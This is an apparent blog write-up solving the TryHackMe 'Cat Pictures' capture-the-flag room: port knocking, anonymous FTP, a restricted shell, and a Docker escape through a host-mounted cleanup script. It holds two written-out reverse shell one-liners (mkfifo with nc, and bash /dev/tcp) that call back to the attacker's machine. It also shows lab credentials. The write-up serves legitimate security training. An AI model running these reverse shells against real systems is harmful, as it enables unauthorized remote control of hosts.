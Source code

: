 ```yaml
---
title: Cat Pictures
date: 2021-09-07 12:00:00
categories: [CTF, TryHackMe]
tags: [docker,port knocking]     # TAG names should always be lowercase
---
```

![](https://tryhackme-images.s3.amazonaws.com/room-icons/0d75a543c66201b4aa996172b6043eb5.jpeg)
Link to room: [Cat Pictures](https://tryhackme.com/room/catpictures) 

## Enumeration

Our initial run of `nmap` gives us a small attack surface:

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 10.10.94.199
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:08 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

## Port Knocking

Visiting the site on `8080` we find a phpBB instance with one message containing a not-so-subtle hint that we’ll need to use port-knocking. 

![Screenshot 2023-08-06 at 8.18.16 PM.png](/assets/cat-pictures/php.png)

We `apt install knockd` to get the `knock` client and call it with the “magic numbers” provided:

`knock 10.10.94.199 1111 2222 3333 4444`

## Initial Access

Running `nmap` again after knocknig we find an ftp site that allows anonymous login:

```
└─$ nmap -sC -sV 10.10.94.199                                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:18 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging in to the ftp site as anonymous yields one file, `note.txt` with a clue about how to move forward. 

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ cat note.txt
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

If we try to `ssh` to port 4420 it won’t connect, so we’ll use netcat to make a plain TCP connection. With the credentials supplied above we land in a heavily restricted shell.

```
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc 10.10.94.199 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
Password accepted

```

## Escalation #1

Enumerating a bit we find there is almost nothing to look at, except for one file `runme` in our catlover’s directory. We have permissions to files in this directory so we assume that our account is catlover. 

```
ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```

We can’t run or even examine this file with our current shell……..

```
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

so it’s time to upgrade by starting a new listener and call it with  `rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.6.1.1 4445 1>/tmp/b`

Back in our new shell we return to examine `runme`. The `strings` command isn’t available in our shell. We could download the file and inspect it locally but it’s not too large so we’ll just use `cat` to see what we can see.  `cat runme`

![runme](/assets/cat-pictures/Screenshot.png)


Scanning a bit we quickly find the string table near the beginning of the binary, and one string in particular that looks like a password.

Executing `runme` with the proper password drops an ssh key in home folder.

```bash
# ./runme
Please enter yout password: [redacted]
Welcome, catlover! SSH key transfer queued!
```

We can download this key to our attacker machine or just copy and paste it into a new file. We’ll need to change permissions on the key before we use it: 

`chmod 600 id_rsa`

And we can SSH into the box with `ssh -i id_rsa [catlover@10.10.94.199](mailto:catlover@10.10.94.199)`

## Escalation #2

We find ourselves in a Docker container. We’ve achieved root access, but only retrieved the first flag. Clearly the second flag is on the Docker host machine. 

🐰 **Rabbit Hole:** Enumerate MariaDB

We find database credentials for MariaDB in the phpBB configuration file. We should enumerate while we’re here. 

`mysql --host mariadb --user=bn_phpbb --password bitnami_phpbb`

Searching through the DB we find the schema for the forum and a test schema. We inspect tables for users, posts, private messages ans drafts but find nothing of value. The database engine is running on a different IP than we are, so we run `system` commands to examine that environment, but this does not lead us out of Docker. 

### Escape the Docker Container

We have a script `clean.sh` in `/opt/clean` . Using `mount` we determine that this folder is mounted from the host OS.

```
(remote) root@7546fa2336d6:/opt/clean# mount
[...]
/dev/xvda1 on /bitnami/phpbb type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /opt/clean type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
[...]
(remote) root@7546fa2336d6:/opt/clean#
```

#### 🐰 Rabbit Hole: Two Shells scenario

We have a shell inside and outside of the container, and there are some exploits in this scenario [as documented on HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount). Unfortunately our host shell does not have access to the shared mount point to execute scenario #1, and we can’t run `ps` to execute scenario #2.  

Turning our attention back to `clean.sh` we note that it simply empties the `/tmp` directory. 

```bash
#!/bin/bash

rm -rf /tmp/*
```

Adding a file to our local `/tmp` directory and waiting just a few minutes (this is a CTF after all…) we see that the `clean.sh` script isn’t executing against our filesystem in the container. If it’s being called on the host side, this would be a path to escape the container. 

Let’s try sticking a reverse shell in there just in case:

`echo "bash -i >& /dev/tcp/10.6.1.1/4446 0>&1" > clean.sh`

Waiting another minute or two rewards us with a shell triggered by root on the docker host. We find our second flag at `/root` as usual. 

Thanks go out to [gamercat](https://tryhackme.com/p/gamercat) for a fun box!